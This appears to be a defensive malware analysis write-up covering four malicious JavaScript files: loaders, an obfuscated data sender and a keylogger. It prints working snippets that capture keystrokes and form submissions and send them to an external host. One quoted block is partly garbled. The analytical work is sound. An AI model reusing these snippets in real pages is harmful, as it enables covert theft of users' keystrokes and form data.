 ## Findings

Below you can find the indicators of compromise as well as noteworthy findings detected manually in the given files. In `file2.js`, I did not find the time to fully detect its behavior apart from two IoC.

### file1.js

`file1.js` is a loader script. IoC & Findings:
- Uncomment page comments: This indicates that the script knows that something useful exists in these comments (probably known from reconnaissance techniques) or another malicious script has created a stealthy script element with comments and stored information.
- Use of `document.write`: The script writes a `script` element in the page with a remote URL as src, which gives the attacker the ability to load `.js` scripts bypassing potential controls applied only to API requests.
- Use of `window.execScript` and `window.eval`: These two functions execute JavaScript code as a string, specifically the response text from the `XHR` request.   

### file2.js (did not find noteworthy findings)

`file2.js`. IoC & Findings:
- Constructs URL from various variables in this function:
    ```javascript
    if(_0x811535[_0x14b009(0xe4)][_0x33d39c[0x0]][_0x14b009(0x102)]==_0x33d39c[0x1]&&xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2])[_0x14b009(0xf1)]>0x0){
                    if(_0x33d39c[0x3]=='l')xfkwf['awcsb'][_0x33d39c[0x4]]+='                     if(_0x33d39c[0x3]=='l')xfkwf['awcsb'][_0x33d39c[0x4]]+='\x20'+xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2]);else{
                        if(_0x33d39c[0x3]=='y')xfkwf[_0x14b009(0x10e)][_0x33d39c[0x4]]+='/'+xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2]);
                        else xfkwf[_0x14b009(0x10e)][_0x33d39c[0x4]]=xfkwf[_0x14b009(0xee)](_0x811535,_0x33d39c[0x2]);
                    }
                }
    ```
- Calls `fetch` and sends `FormData`:
    ```javascript
        if(xfkwf[_0x4dcc4c(0xe7)]==0x1){
            var _0x48fd7e=new FormData();
            _0x48fd7e[_0x4dcc4c(0x124)](xfkwf['vnskp_param'],_0x1cdb15),
            fetch(xfkwf[_0x4dcc4c(0x116)](xfkwf[_0x4dcc4c(0x10b)])+'?'+Math[_0x4dcc4c(0xdb)](),{
                'method':_0x4dcc4c(0xd7),
                'body':_0x48fd7e
            });
        }
    ```

### file3.js

`file3.js` is a loader script (loads `iframe` and `script` elements). IoC & Findings:
- Creation of an invisible `iframe` with `pointer-events` set to `none`: This indicates that the attacker can steal browser events by sideloading a script through an `iframe`. Invisibility and `pointer-events` set to none let the script stay undetectable.
- Initialization of multiple suspicious JavaScript files concatenated with the `public_path` `"https://js.mysitecdn.com/"`.
    ```javascript
        f=l+"frame.7a3ddac5.js",
        w=l+"vendor.e163e343.js",
        h=l+"frame-modern.78abb9d0.js",
        v=l+"vendor-modern.dde03d24.js",
    ```
    These scripts are then embedded into the page:
    ```javascript
        var p=function(e){
            var t=document.createElement("script");
            return t.type="text/javascript",t.charset="utf-8",t.src=e,t
        },
    ```
    ```javascript
    return n.contentDocument.head.appendChild(a),
            n.contentDocument.head.appendChild(s),
    ```
- Accepts custom events (probably from loaded scripts): Custom events are registered in the lists below:
    ```javascript
        d=[
            "turbo:visit",
            "turbolinks:visit",
            "page:before-change"
        ],
        u=[
            "turbo:before-cache",
            "turbolinks:before-cache"
        ],
        m=[
            "turbo:load",
            "turbolinks:load",
            "page:change"
        ];
    ```
    At the end, the script listens for these events:
    ```javascript
            (
            E(),
            function(e,t,n){
                // Load iframe for events "turbo:load", "turbolinks:load", and
                // "page:change".
                m.forEach((function(t){
                    document.addEventListener(t,e)
                })),
                // Remove iframe for events "turbo:before-cache", "turbolinks:before-cache"
                u.forEach((function (e){
                    document.addEventListener(e,t)
                })),
                // Delete window["MySite"]
                d.forEach((function(e){
                    document.addEventListener(e,n)
                }))
            }(
                E,
                x,
                (function(){
                    window[g]("shutdown",!1),delete window[g],x(),_()
                })
            )
        )
    ```
    To prevent such activity, we could block listeners on events that are not registered on the page. This dangerous though, as it could potentially trigger false positives from events registered by frameworks like React.

### file4.js

`file4.js` is a keylogger. IoC & Findings:
- Initializes a listener on the `keydown` event: On key press, the script stores the key in a variable: `keys`
    ```javascript
    window.addEventListener("keydown", e => {
        // If it's not just a letter (e.g., a modifier key), make it easier to spot, e.g., "[Tab]"
        if (e.key.length > 1) {
            keys += `[${e.key}]`;
        } else {
            keys += e.key;
        }
    });
    ```
- Initializes a listener on the `beforeunload` event: This enables the attacker to execute code just before the DOM is destroyed. On `beforeunload`, the script sends the content of the `keys` variable to the URL `"https://something.refreshment.ltd/keys"`;
    ```javascript
    window.addEventListener("beforeunload", function (e) {
        if (keys.length === 0) {
            return;
        }
        e.preventDefault();
        sendData({
            keys,
            url: window.location.href
        }, externURLKeys);
    });
    ```
- Initializes a listener on the `submit` event: This enables the attacker to trigger actions on form submissions. Specifically, the script collects the values from `input`, `select`, and `textarea` elements and sends them to the external URL `"https://something.refreshment.ltd/send"`.
    ```javascript
    document.addEventListener("submit", function (e) {
        e.preventDefault();
        const formData = collectFormData();
        sendData(formData, externURL);
    });
    ```

